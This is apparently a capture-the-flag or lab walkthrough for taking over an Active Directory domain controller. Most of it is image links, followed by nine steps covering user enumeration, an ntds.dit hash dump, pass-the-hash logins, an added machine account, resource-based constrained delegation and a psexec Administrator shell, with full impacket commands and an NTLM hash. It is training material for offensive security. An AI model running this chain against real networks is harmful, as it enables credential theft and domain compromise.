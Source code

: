 
![image](https://github.com/user-attachments/assets/fc0f4153-e07b-4061-a969-b07e99667881)
![image](https://github.com/user-attachments/assets/83f0c4e6-0ee9-472e-90b1-7a8fda5f5c4f)
![image](https://github.com/user-attachments/assets/f907684a-69c1-4f7e-b4f8-039369ede0d5)
![image](https://github.com/user-attachments/assets/1b0da170-3e31-4d36-9e4e-7c98ae7d670b)
![image](https://github.com/user-attachments/assets/b31d5884-15bd-49e1-95b7-f9ab03db58fc)
![image](https://github.com/user-attachments/assets/f6bbf820-bc37-4988-b3b6-30d684bf2cbc)
![image](https://github.com/user-attachments/assets/369f21bf-8b1e-40ee-841d-c7aefe183812)
![image](https://github.com/user-attachments/assets/7757337c-fa4b-4f13-a9bd-8d029580a5cf)
![image](https://github.com/user-attachments/assets/e4d3327e-5635-4c79-83a1-989c00484520)
![image](https://github.com/user-attachments/assets/26c42e64-326e-4e88-b05e-bb2c855c0087)
![image](https://github.com/user-attachments/assets/1c93bd31-0222-40be-ab2f-db5f96f566e3)
![image](https://github.com/user-attachments/assets/c5adbfcd-7b81-4338-abbd-fdacb88b3bd3)
![image](https://github.com/user-attachments/assets/d886a818-5176-454e-9466-53f0a54571a9)

![image](https://github.com/user-attachments/assets/c9c99a95-c2a9-402f-935e-e3ddf9dea23e)
![image](https://github.com/user-attachments/assets/1026f7d2-2d21-4faa-87c6-00879e30f4b0)
![image](https://github.com/user-attachments/assets/5877ba44-d307-4947-8deb-ae1bc8bdf957)
![image](https://github.com/user-attachments/assets/83f95c61-f1e4-4c5e-9dbe-39f752759f34)
![image](https://github.com/user-attachments/assets/81a15204-bfc4-4c9b-ab08-9196a9f50843)
![image](https://github.com/user-attachments/assets/ad1a5e48-60f0-4f60-b971-bfb2f2e37c01)
![image](https://github.com/user-attachments/assets/7fb116cb-e733-46a4-8c3a-6f22b47b7b95)
![image](https://github.com/user-attachments/assets/b7fefafc-42fe-482b-a31c-698ee416d19c)

1. enum4linux-ng -A <IP> --> get users, and description for V.Ventz contains info likely password

2. V.Ventz creds to enum SMB --> get ntds.dit & SYSTEM --> impacket-secretsdump, get user names & ntlm hashes

3. crackmapexec winrm --> user L.Livingstone & hash valid (Pwn3rd!)

4. Evil-WinRM as L.Livingstone --> get local flag

5. L.Livingstone is a Domain User and has SeMachineAccountPrivilege Enabled (able to add workstations to domain)

6. add new computer
   ```
   impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.210.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'newpc' -computer-pass 'newpc''
   ```

7. assign Resource-Based Constrained Delegation (RBCD)
      ```
      impacket-rbcd -dc-ip 192.168.210.175 -delegate-from newpc$ -delegate-to RESOURCEDC$ -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -action write resourced.local/l.livingstone
   ```

8. set correct FQDN for Kerberos TGS & SPN --> /etc/hosts  192.168.210.175 resourcedc.resourced.local

9. impacket-psexec, via Kerberos ticket（ccache）, get shell as Administrator
   ```
   sudo KRB5CCNAME=Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache impacket-psexec -k -no-pass resourced.local/Administrator@resourcedc.resourced.local -dc-ip 192.168.210.175
  ```
